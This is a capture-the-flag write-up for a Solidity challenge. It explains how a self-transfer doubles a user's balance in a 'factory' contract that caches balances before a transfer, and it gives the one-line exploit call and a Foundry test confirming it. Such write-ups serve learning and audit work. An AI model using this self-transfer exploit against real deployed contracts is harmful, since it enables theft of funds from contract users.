 # TemporaryVariable

## Description

You have encountered a smart contract called "factory" which manages user balances and provides functions for supply, transfer, and removal of funds.

## Objective of CTF

Your goal is to exploit a vulnerability in the contract to remove exactly double the amount you supply. Provide your solution as

user1 that supplies 100 units to the contract and removes 200 units . Use the foundry setup given below.

### Solution

- Since the balances of from & to are cached in the first lines of the transfer function we can double our balance by sending our complete balance to ourself this will result in frombalance & tobalance being 100, at the end we subtract the amount by the chached value in this line `_balances[_from] = frombalance - _amount;` after that we add the amount to our cached `tobalance` which will be 100 + 100 => 200 in this piece of code `_balances[_to] = tobalance + _amount;`

### Steps

- Just call \_factory.transfer(user1, user1, 100)

### Attacker Contract

- Not needed

### Test

```solidity
 function testFactory() public {
        vm.prank(user1);
        _factory.transfer(user1, user1, 100);

        uint256 newbalance = _factory.checkbalance(user1);
        assertEq(newbalance, 200);
    }
```
